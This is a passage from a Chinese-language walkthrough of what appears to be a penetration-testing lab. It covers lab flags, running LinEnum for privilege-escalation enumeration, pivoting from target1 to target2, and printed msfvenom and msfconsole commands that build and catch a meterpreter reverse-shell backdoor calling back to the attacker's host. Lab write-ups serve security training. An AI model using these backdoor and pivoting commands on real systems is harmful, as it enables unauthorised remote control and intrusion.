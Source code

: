 ![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-34.png)

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-35.png)

在robots.txt以及flag21sA.txt分别发现flag

```shell
flag{QeaRqaw12fs}  flag{e2D3aFdasde}
```

上传信息收集脚本，进行提权信息收集，进行信息再收集。

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-36.png)

```shell
chmod +x LinEnum.sh
./LinEnum.sh
```

这里运行无回显。具体是什么原因不清楚，大概是权限不够，或者被拦截。那就看一下网络配置。

```
ipconfig
ip addr show 
ip a show dev 网络接口
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-37.png)

这里可以看到有192.168.22.129这个ip。

### 

连接上target1之后，可以用target1当做跳板，但是蚁剑比较麻烦，此时可以改用CS神器或者MSF，因为使用CS或者MSF时，即使权限不够，我们也可以进行一些操作。

接下来我们开始渗透Target2。kali直接与target2连接是连不上的。因为kali网段是80，target2网段是22，二者不在同一个网段，无法互联，但是target1网段是80和22，target1既跟kali同一网段，又跟target2同一网段，因此，我们可以将target1作为跳板，实现kali和target2的互联。

##### 生成后门

```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.80.137 LPORT=1111 -f elf >t1.elf
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-38.png)

##### 接收反弹

```shell
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.80.137
set LPORT 1111
exploit
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-39.png)

